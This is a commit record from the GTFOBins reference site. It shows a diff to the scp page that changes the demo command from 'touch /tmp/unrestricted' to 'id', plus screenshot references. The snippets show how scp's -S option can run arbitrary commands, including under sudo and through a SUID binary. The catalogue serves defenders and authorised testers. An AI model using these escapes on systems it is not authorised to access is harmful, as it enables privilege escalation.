

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/scp.md, in a window 1280 px wide. Shown: the whole page at 99% size, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Use the id command for non-interactive examples

```diff
--- a/_gtfobins/scp.md
+++ b/_gtfobins/scp.md
@@ -3,21 +3,21 @@ functions:
   exec-non-interactive:
     - code: |
         TF=$(mktemp)
-        CMD="touch /tmp/unrestricted"
+        CMD="id"
         echo "$CMD" > "$TF"
         chmod +x "$TF"
         scp -S $TF x y:
   sudo-enabled:
     - code: |
         TF=$(mktemp)
-        CMD="touch /tmp/unrestricted"
+        CMD="id"
         echo "$CMD" > "$TF"
         chmod +x "$TF"
         sudo scp -S $TF x y:
   suid-limited:
     - code: |
         TF=$(mktemp)
-        CMD="touch /tmp/unrestricted"
+        CMD="id"
         echo "$CMD" > "$TF"
         chmod +x "$TF"
         ./scp -S $TF a b:
```
